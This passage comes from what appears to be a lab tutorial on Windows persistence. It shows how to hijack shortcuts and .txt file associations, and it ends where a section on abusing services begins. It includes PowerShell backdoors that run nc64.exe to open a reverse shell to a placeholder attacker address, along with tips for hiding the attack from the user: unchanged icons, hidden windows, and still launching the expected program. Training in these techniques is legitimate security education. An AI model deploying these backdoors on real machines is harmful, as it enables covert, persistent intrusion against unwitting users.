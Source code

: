 Before hijacking the shortcut's target, we create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run the program from the original location on the shortcut's properties:

```PowerShell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell.

If we double-click the shortcut, we should get a connection back to our attacker's machine. Meanwhile, the user will get a calculator just as expected by them. We will probably notice a command prompt flashing up and disappearing immediately on our screen. A regular user might not mind too much about that, hopefully.

### Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open `.txt` files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system.

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling `.txt` files. Most ProgID entries will have a subkey under shell\open\command where the default command to be run for files with that extension is specified.

In this case, when we try to open a `.txt` file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, we create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```PowerShell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`. Then we change the registry key to run our backdoor script in a hidden window.

## Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

